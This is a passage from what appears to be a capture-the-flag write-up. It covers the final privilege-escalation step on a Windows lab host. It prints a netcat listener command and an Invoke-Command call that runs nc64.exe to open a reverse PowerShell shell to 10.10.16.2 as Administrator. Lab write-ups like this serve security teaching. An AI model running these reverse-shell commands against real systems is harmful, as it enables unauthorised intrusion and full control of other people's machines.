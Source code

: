 Finally, we execute `nc -lvp 443` to start a netcat listener and use the [Invoke-Command](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command) cmdlet to instruct the target host to execute `nc64.exe -e powershell.exe 10.10.16.2 443` as the `Administrator` user.

{% highlight none linenos %}
PS C:\inetpub\wwwroot\internal-01\log> @@Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\internal-01\log\nc64.exe -e powershell.exe 10.10.16.2 443 } -Credential $creds -Computer localhost@@
Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\internal-01\log\nc64.exe -e powershell.exe 10.10.16.2 443 } -Credential $creds -Computer localhost
{% endhighlight %}

![rootShell](/assets/{{ imgDir }}/rootShell.png)

Once we execute the `Invoke-Command` command, the shell freezes and we obtain a new shell as the `Administrator` user!
